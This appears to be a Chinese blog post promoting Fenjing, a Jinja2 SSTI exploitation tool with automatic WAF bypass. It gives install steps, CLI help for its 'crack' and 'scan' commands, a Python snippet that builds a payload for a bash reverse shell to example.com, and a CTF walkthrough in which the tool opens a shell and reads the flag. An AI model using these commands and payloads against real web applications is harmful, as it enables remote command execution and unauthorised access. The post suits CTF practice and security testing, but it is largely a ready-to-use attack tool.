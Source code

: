```yaml
---
title: fenjing(焚靖)——jinja2 SSTI一把梭
date: 2023-05-11 18:36:24
tags:
---
```


> 焚靖是一个针对Jinja2 SSTI的命令行脚本，具有强大的自动绕过WAF功能

## 安装

### 使用pip（最省事）

```shell
pip install fenjing
python -m fenjing scan --url 'http://xxx/'
```

### 也可下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run --net host -it marven11/fenjing scan --url 'http://xxx/'
```

### 还可以直接下载源码

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
```

下载后可以选择直接使用（先确保用pip安装完依赖）

```shell
python -m pip install -r requirements.txt
```

也可以手动构建一个docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing scan --url 'http://xxx/'
```

## 使用

```shell
$ python -m fenjing --help
Usage: python -m fenjing [OPTIONS] COMMAND [ARGS]...

Options:
  --help  Show this message and exit.

Commands:
  crack  攻击指定的表单
  scan   扫描指定的网站
$ python -m fenjing crack --help
Usage: python -m fenjing crack [OPTIONS]

  攻击指定的表单

Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.
$ python -m fenjing scan --help
Usage: python -m fenjing scan [OPTIONS]

  扫描指定的网站

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.
```

也可做为一个python模块集成进脚本中使用

```python
from fenjing import exec_cmd_payload

import logging

logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "request", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]

    for word in blacklist:
        if word in s:
            return False
    return True

payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

print(payload)
```

## 支持的绕过

- `'`和`"`的绕过
- 绝大部分关键字的绕过
- 自然数的绕过
- 下划线`_`
- `+`和`-`
- `~`
- `[`下标访问的绕过
- `{{}}`标签的绕过

## 使用示例

[[GDOUCTF 2023]\<ez_ze\>](<https://www.nssctf.cn/problem/3745>)
打开题目发现是一个使用POST提交表单的网页，检查响应头的`Sever`字段，发现是`Werkzeug/2.2.3 Python/3.8.16`，所以应该是一个flask程序，考虑SSTI。
使用一些常见的jinja2 SSTI payload，发现都会被WAF给过滤。
尝试焚靖一把梭：

```shell
$ python -m fenjing crack -u http://node1.anna.nssctf.cn:28140/get_flag -i name
    ____             _ _
   / __/__  ____    (_|_)___  ____ _
  / /_/ _ \/ __ \  / / / __ \/ __ `/
 / __/  __/ / / / / / / / / / /_/ /
/_/  \___/_/ /_/_/ /_/_/ /_/\__, /
              /___/        /____/

...

INFO:[cli] | Use Ctrl+D to exit.
$>> cat /flag

...

Hello, $ NSSCTF{82377006-eb0f-4ebd-9a9f-ba6ad3ba7c17}
 $!
$>>
```

可见焚靖的WAF绕过能力还是非常强大的

## 参考资料

[Marven11/Fenjing: 一个类似SQLMap的Jinja2 SSTI利用脚本 | A SQLMap-like Jinja2 SSTI cracker](https://github.com/Marven11/Fenjing)（官方GitHub页面）

## 想找一个通用的SSTI payload生成器？

可以去尝试一下[tplmap](https://github.com/epinna/tplmap)

